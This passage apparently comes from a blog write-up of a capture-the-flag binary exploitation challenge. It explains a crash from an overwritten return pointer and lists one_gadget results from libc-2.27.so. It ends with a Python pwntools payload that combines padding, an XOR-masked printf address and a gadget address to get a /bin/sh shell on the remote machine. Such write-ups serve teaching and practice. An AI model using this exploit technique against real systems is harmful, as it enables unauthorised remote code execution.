 ```bash
```
{: .nolineno }

We can see the exit status being `SIGSEGV`, this occurs because `0xBBBBBBBBBBBB` is not a valid address, and the application crashes.
We now know that it has been executed correctly and that we have overwritten `rip`, the program dont know how to continue so it crashed.

The first thing is to decide what we want the program to do now, the normal thing is to look for gadgets that allow us to call `system("/bin/sh")`, I leave you the link to another post of my blog where you can see it: [HackTheBox - Retired](https://v3he.io/posts/hackthebox-retired/#shell-as-www-data)

### Searching the gadget

In this case we are going to automate even more and we are going to use [one_gadget](https://github.com/david942j/one_gadget). Directly with a single gadget and without having to chain, we are going to get to the same point, execute a `/bin/sh` on the remote machine.

```bash
$ one_gadget libc-2.27.so
0x4f2a5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f302 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a2fc execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```
{: .nolineno }

We have found three possible candidates, each one has its conditions, so it is a question of testing them or adjusting them to fit, since for example the second one has as a constraint that `rsp+0x40 is NULL`, normally we control the buffer and if it points to it, we can make this condition be fulfilled, although in this case it will not be necessary. I will try with the third one.

### RCE

```python
[.. code above..]

payload = b"A" * 40
payload += p64(0x123456789ABCDEF1 ^ (libc_base + libc.symbols.printf))
payload += b"A" * 8
payload += p64(libc_base + 0x10a2fc)      # our gadget

p.sendline(payload)

p.interactive()
```
